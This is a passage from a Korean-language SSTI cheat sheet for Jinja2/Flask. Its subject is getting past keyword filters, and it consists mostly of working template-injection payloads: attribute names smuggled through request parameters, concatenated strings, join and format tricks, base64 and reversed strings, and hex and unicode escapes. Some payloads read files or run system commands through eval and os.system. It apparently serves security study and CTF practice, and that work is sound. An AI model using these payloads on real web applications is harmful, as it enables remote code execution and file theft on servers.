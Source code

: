 <br>

### 1.3.4. Filtering Bypass Using Flask `request` module

만약 특정 키워드를 막지만 request 객체 사용을 막지 않는 경우 `request.args`, `request.cookies`, `request.headers`, `request.form`를 이용하여 키워드를 쉽게 우회할 수 있는 방법이 있다.

```python
# Using Request Get Parameter
http://127.0.0.1:8080/?ssti={{ request|attr(request.args.get('class')|attr(request.args.get('mro'))|attr(request.args.get('getitem'))(1) }}&class=__class__&mro=__mro__&getitem=__getitem__
http://127.0.0.1:8080?ssti={{ request|attr(request.form.get('class'))|attr(request.form.get('mro'))|attr(request.form.get('getitem'))(1) }}
http://127.0.0.1:8080?ssti={{ request|attr(request.cookies.get('class'))|attr(request.cookies.get('mro'))|attr(request.cookies.get('getitem'))(1) }}
http://127.0.0.1:8080?ssti={{ request|attr(request.headers.get('class'))|attr(request.headers.get('mro'))|attr(request.headers.get('getitem'))(1) }}
```



<br>

### 1.3.5. Filtering Specific Keyword Bypass

만약 class, mro, subclasses, base 등 특정 키워드가 필터링 되는 경우에는 Jinja2 템플릿 엔진에 내장 함수로 들어있는 attr 함수를 사용하거나 [] 대괄호를 이용하여 문자열로 메서드를 호출할 수 있다.

```python
# class, mro, subclass 등 문자열 필터링 시 다음과 같이 문자열 더하기로 나타내면 우회가 가능하다.
{{ ''['__cl'+'ass__']['__m'+'ro__'][0]['__subcla'+'sses__']() }}
{{ ''|attr('__cl'+'ass__')|attr('__m'+'ro__')[0]|attr('__subcla'+'ssess__')() }}
{{ ''['_'*2+'class'+'_'*2]['_'*2+'mro'+'_'*2][0]['_'*2+'subclasses'+'_'*2]() }}
{{ ''|attr('_'+'_'+'c'+'l'+'a'+'s'+'s'+'_'+'_')|attr('_'+'_'+'m'+'r'+'o'+'_'+'_')[1]|attr('_'+'_'+'s'+'u'+'b'+'c'+'l'+'a'+'s'+'s'+'e'+'s'+'_'+'_')() }}

# 문자열 필터링과 "+" 문자까지 필터링하고 있는 경우 다음과 같이 우회가 가능하다.
{{ ''['__cl''ass__']['__m''ro__'][0]['__subcla''sses__']() }}

# Python Builtins 필터인 |join을 이용하여 우회가 가능하다.
# {{['Thi','s wi','ll b','e appended']|join}} == {{ 'This will be appended' }}
{{ ''|attr(["__","class","__"]|join)|attr(["__","mro","__"]|join)[0]|attr(["__subcla","sses__"]|join)()}}

# |format 이용
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_

# base64 인코딩을 이용한 우회
{{ ().__class__.__bases__[0].__subclasses__()[40]('r','ZmxhZy50eHQ='.decode('base64')).read() }}

# [::-1] 을 이용한 문자열 역순 우회
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}
{{ ().__class__.__base__.__subclasses__()[103].__init__.__globals__['__builtins__']['lave'[::-1]]("__import__('os').system('whoami')") }}

# ascii hex
{{ ''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f'] }}
# ascii otc
{{ ''['\137\137\143\154\141\163\163\137\137'] }}
# 16bit unicode
{{ ''['\u005F\u005F\u0063\u006c\u0061\u0073\u0073\u005F\u005F'] }}
# 32bit unicode
{{ ''['\U0000005F\U0000005F\U00000063\U0000006c\U00000061\U00000073\U00000073\U0000005F\U0000005F'] }}
```